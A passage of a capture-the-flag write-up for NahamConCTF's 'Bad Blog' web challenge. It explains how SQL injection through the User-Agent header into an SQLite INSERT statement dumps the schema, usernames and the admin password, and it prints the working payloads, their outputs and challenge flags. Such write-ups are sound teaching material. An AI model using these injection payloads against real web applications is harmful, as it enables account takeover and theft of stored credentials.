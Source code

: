 > FLAG : flag{85a25711fa6e111ed54b86468a45b90c}

---
## <span style="color:#21C587"></span> (Web) Bad Blog [469 pts]

> Bad Blog challenge is get the admin account using the SQL Injection of insert statements.

![](https://github.com/wjddnjs33/image/raw/main/NahamConCTF/Bad%20Blog/1.png?raw=true)

Go into the challenge and u will see a login form.

![](https://github.com/wjddnjs33/image/raw/main/NahamConCTF/Bad%20Blog/2.png?raw=true)

When u register and login, u will see the posts and `add post`/`Logged in` as a function.

![](https://github.com/wjddnjs33/image/raw/main/NahamConCTF/Bad%20Blog/3.png?raw=true)

I created a post and was able to read it with `/post/:title`. I thought there would be an xss or ssti vuln here. but it didn't happen at all.

![](https://github.com/wjddnjs33/image/raw/main/NahamConCTF/Bad%20Blog/5.png?raw=true)

I found something interesting in `/profile`. Whenever someone read my post, I creat a log using `User-Agent`. I thought I was save log using a database, So, I try SQL Injection using `User-Agent` in `/post:title`.

![](https://github.com/wjddnjs33/image/raw/main/NahamConCTF/Bad%20Blog/6.png?raw=true)

When i passed the value of `User-Agent`, I could see a db error :) I was able know using sqlite3 in server and using insert statements. So, I'll try union SQL Injection attack of insert statements in sqlite 3!

```
User-Agent : a'), (5, 2, (select group_concat(sql) from sqlite_master))--
Output     : CREATE TABLE user ( id INTEGER NOT NULL, username VARCHAR(40), password VARCHAR(40), PRIMARY KEY (id), UNIQUE (username) ),CREATE TABLE post ( id INTEGER NOT NULL, title VARCHAR(40), author_id INTEGER, date VARCHAR(40), category VARCHAR(40), image VARCHAR(60), thumbnail VARCHAR(60), heading VARCHAR(200), content VARCHAR(10000), PRIMARY KEY (id), UNIQUE (title), FOREIGN KEY(author_id) REFERENCES user (id) ),CREATE TABLE visit ( id INTEGER NOT NULL, post_id INTEGER, user_id INTEGER, ua VARCHAR(100), PRIMARY KEY (id), FOREIGN KEY(post_id) REFERENCES post (id), FOREIGN KEY(user_id) REFERENCES user (id) )

User-Agent : a'),(5,2,(select group_concat(username) from user))--
Output     : a,admin

User-Agent : a'),(5,2,(select group_concat(password) from user))--
Output     : J3H8cqMNWxH68mTj,a
```
Using the payload above, I was able to get an admin account. Now, login as an administrator to get the flag.

> FLAG : flag{8b31eecb1831ed594fa27ef5b431fe34}

---